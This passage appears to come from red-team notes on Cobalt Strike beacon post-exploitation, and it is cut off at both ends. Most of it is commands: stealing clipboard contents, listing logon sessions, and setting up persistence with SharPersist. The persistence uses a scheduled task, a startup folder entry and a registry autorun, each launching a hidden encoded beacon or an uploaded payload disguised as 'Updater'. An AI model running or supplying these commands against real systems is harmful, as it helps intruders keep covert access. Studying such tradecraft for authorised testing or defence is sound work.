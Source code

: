 ```sh
beacon> clipboard
```

#### User Sessions

`net logons` - lists the logon sessions on this machine.

```sh
beacon> net logons
```

##

## Host Persistence

### Task Scheduler

#### SharPersist - schtask

```sh
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
-a "-nop -w hidden -enc <b64 encoded CS beacon>" -n "Updater" -m add -o hourly
```

### Startup Folder

#### SharPersist - startupFolder

<pre><code><strong>beacon> execute-assembly C:\Tools\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
</strong><strong>-a "-nop -w hidden -enc &#x3C;b64 encoded CS beacon>" -f "NameOfStartUpFolder" -m add
</strong></code></pre>

### Registry Autorun

#### SharPersist - reg

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" 
-a "/q /n" -k "hkcurun" -v "Updater" -m add
```



## Host Privilege Escalation

### Windows Services

